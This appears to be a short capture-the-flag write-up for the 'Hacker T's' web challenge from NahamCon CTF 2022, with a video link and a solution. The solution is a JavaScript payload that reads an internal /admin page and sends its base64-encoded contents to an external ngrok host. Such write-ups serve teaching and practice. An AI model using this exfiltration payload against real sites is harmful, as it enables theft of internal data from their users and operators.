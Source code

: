 ```yaml
---
name: Hacker T's (2022)
event: NahamCon CTF 2022
category: Web
description: Writeup for Hacker T's (Web) - NahamCon CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Hacker T's

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/ttsFRYkL8wQ/0.jpg)](https://youtu.be/ttsFRYkL8wQ?t=1362 "NahamCon CTF 2022: Hacker T's")

## Description

> We all love our hacker t-shirts. Make your own custom ones.

## Solution

{% code overflow="wrap" %}
```js
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://9106-81-103-153-174.ngrok.io?flag=" + flag);
    exfil.send();
};
xhr.send();
```
{% endcode %}

